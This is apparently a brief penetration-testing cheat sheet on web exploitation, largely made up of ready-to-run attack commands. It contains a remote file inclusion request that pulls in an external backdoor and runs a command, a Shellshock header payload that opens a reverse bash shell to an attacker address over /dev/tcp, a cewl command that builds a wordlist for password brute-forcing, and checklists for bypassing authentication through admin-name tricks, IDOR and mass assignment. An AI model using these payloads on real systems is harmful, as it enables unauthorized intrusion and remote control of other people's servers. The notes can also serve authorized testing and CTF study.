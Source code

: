 # Exploitation

## <a href='https://github.com/leecybersec/web-shell' target="blank">WebShell</a>

## File Include

``` bash
curl http://target/?page=http://php/backdoor.php&cmd=id
```

## <a href='https://github.com/mubix/shellshocker-pocs' target="blank">Shellshock POC</a>

``` bash
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/$myip/445 0>&1'" http://$ip/cgi-bin/user.sh
```

## Virtual hosting

> Virtual hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server (or pool of servers).

## Create Passwd Directory for Brute Force

``` bash
cewl -m 5 http://$ip/joomla/ > passwd.txt
```

## Authentication

1. Check cookies
2. Check "admin" and "Admin", "admin " and "admin"
3. Check the redirection

## Authentication

1. Check IDOR
2. Check .js, .json
3. Check Object-relational mapping (&admin[admin]=1)